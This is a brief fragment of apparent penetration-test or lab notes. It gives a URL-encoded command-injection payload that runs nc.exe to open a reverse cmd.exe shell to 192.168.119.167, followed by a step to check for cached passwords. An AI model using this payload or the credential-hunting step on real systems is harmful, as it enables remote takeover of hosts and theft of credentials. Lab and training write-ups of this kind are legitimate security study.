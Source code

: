 
1. Initial foothold as admin through web Injection vulnerability:
```
%26+cmd.exe+/c+c%3a\Users\Administrator\Desktop\nc.exe+192.168.119.167+21+-e+cmd.exe
```

2. Checking for cached passwords.
